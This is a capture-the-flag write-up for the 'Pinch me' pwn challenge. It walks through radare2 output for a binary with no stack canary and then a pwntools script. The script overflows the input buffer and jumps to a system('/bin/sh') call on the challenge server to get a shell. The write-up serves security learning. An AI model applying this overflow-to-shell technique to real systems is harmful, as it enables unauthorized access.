 # Pinch me

This is another pwn challenge. A sample output is like so, with the user input being `Yes`:
```
$ ./pinch_me
Is this a real life, or is it just a fanta sea?
Am I dreaming?
Yes
Pinch me!
```

So, I opened this up in Radare2 and checked the security on the binary:
```
[0x004011d5]> i
fd       3
file     pinch_me
size     0x40f8
humansz  16.2K
mode     r-x
format   elf64
iorw     false
block    0x100
type     EXEC (Executable file)
arch     x86
baddr    0x400000
binsz    14774
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Debian 10.2.0-16) 10.2.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
This binary has no stack canary and isn't PIE, so it looks like another stack overflow.

Viewing the `main` function's disassembly in Radare2, it calls the `vuln` function, which prints a prompt, gets 100 bytes into the buffer, then runs some checks on local variables to see if they are equal to `0x1234567` and `0x1337c0de`. However, just like the sanity check, we don't have to set the return address to the start of the function.

```
┌ 131: sym.vuln ();
│           ; var char *s @ rbp-0x20
│           ; var uint32_t var_8h @ rbp-0x8
│           ; var uint32_t var_4h @ rbp-0x4
│           0x00401152      55             push rbp
│           0x00401153      4889e5         mov rbp, rsp
│           0x00401156      4883ec20       sub rsp, 0x20
│           0x0040115a      c745fc674523.  mov dword [var_4h], 0x1234567
│           0x00401161      c745f8efcdab.  mov dword [var_8h], 0x89abcdef
│           0x00401168      488d3d990e00.  lea rdi, str.Is_this_a_real_life__or_is_it_just_a_fanta_sea_    ; 0x402008 ; ...
│           0x0040116f      e8bcfeffff     call sym.imp.puts           ;[1] ; int puts(const char *s)
│           0x00401174      488d3dbd0e00.  lea rdi, str.Am_I_dreaming_    ; 0x402038 ; "Am I dreaming?" ; const char *s
│           0x0040117b      e8b0feffff     call sym.imp.puts           ;[1] ; int puts(const char *s)
│           0x00401180      488b15c92e00.  mov rdx, qword [obj.stdin]    ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x404050:8]=0 ; FILE *stream
│           0x00401187      488d45e0       lea rax, [s]
│           0x0040118b      be64000000     mov esi, 0x64               ; 'd' ; 100 ; int size
│           0x00401190      4889c7         mov rdi, rax                ; char *s
│           0x00401193      e8c8feffff     call sym.imp.fgets          ;[2] ; char *fgets(char *s, int size, FILE *stream)
│           0x00401198      817df8dec037.  cmp dword [var_8h], 0x1337c0de
│       ┌─< 0x0040119f      750e           jne 0x4011af
│       │   0x004011a1      488d3d9f0e00.  lea rdi, str._bin_sh        ; 0x402047 ; "/bin/sh" ; const char *string
│       │   0x004011a8      e893feffff     call sym.imp.system         ;[3] ; int system(const char *string)
│      ┌──< 0x004011ad      eb23           jmp 0x4011d2
│      ││   ; CODE XREF from sym.vuln @ 0x40119f
│      │└─> 0x004011af      817dfc674523.  cmp dword [var_4h], 0x1234567
│      │┌─< 0x004011b6      740e           je 0x4011c6
│      ││   0x004011b8      488d3d900e00.  lea rdi, str.Pinch_me_harder_    ; 0x40204f ; "Pinch me harder!" ; const char *s
│      ││   0x004011bf      e86cfeffff     call sym.imp.puts           ;[1] ; int puts(const char *s)
│     ┌───< 0x004011c4      eb0c           jmp 0x4011d2
│     │││   ; CODE XREF from sym.vuln @ 0x4011b6
│     ││└─> 0x004011c6      488d3d930e00.  lea rdi, str.Pinch_me_      ; 0x402060 ; "Pinch me!" ; const char *s
│     ││    0x004011cd      e85efeffff     call sym.imp.puts           ;[1] ; int puts(const char *s)
│     ││    ; CODE XREFS from sym.vuln @ 0x4011ad, 0x4011c4
│     └└──> 0x004011d2      90             nop
│           0x004011d3      c9             leave
└           0x004011d4      c3             ret
```

As we can see, if we can jump to `0x004011a1`, the program will run `system('/bin/sh')` and we will have an interactive shell.

So, we make a quick Python script like so:
```python
from pwn import *

payload = b"\x41"*40 + p64(0x004011a1)
r = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

r.recvuntil('dreaming?\n')
r.sendline(payload)
r.interactive()
```

This leaves us with an interactive shell, so we can just `cat flag.txt` for our flag.
